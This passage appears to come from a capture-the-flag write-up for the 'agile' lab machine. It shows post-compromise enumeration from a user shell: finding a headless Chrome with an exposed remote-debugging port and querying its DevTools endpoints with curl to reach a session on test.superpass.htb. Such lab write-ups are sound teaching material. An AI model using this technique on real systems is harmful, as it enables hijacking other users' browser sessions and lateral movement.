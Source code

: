 Got corum shell.

By the way, the password hash in the users table could not be cracked.

### corum -> edwards

```console
corum@agile:~$ ps auxwww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
(snip)
runner      7181  2.4  2.5 33990560 101892 ?     Sl   07:38   0:00 /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.D04o5w --window-size=1420,1080 data:,

corum@agile:~$ ss -pantu
Netid     State          Recv-Q     Send-Q            Local Address:Port            Peer Address:Port      Process
(snip)
tcp       LISTEN         0          10                    127.0.0.1:41829                0.0.0.0:*
```

41829/tcp is open and is used by Google Chrome `--remote-debugging-port` option.

[Chrome DevTools Protocol](https://chromedevtools.github.io/devtools-protocol/#endpoints)

> GET /json/version
>
> Browser version metadata

> GET /json or /json/list
>
> A list of all available websocket targets.

There are various endpoints so I try it.

```console
corum@agile:~$ curl http://localhost:41829/json/version
{
   "Browser": "HeadlessChrome/108.0.5359.94",
   "Protocol-Version": "1.3",
   "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/108.0.5359.94 Safari/537.36",
   "V8-Version": "10.8.168.21",
   "WebKit-Version": "537.36 (@713576b895246504ccc6b92c2fb8ce2d60194074)",
   "webSocketDebuggerUrl": "ws://localhost:41829/devtools/browser/b169f9d7-3e30-496e-a0fc-0d38fcb6e495"
}

corum@agile:~$ curl http://localhost:41829/json
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:41829/devtools/page/5AFFEE7387635A8FECFF1B3DA927A44D",
   "id": "5AFFEE7387635A8FECFF1B3DA927A44D",
   "title": "SuperPassword 🦸",
   "type": "page",
   "url": "http://test.superpass.htb/",
   "webSocketDebuggerUrl": "ws://localhost:41829/devtools/page/5AFFEE7387635A8FECFF1B3DA927A44D"
} ]
```
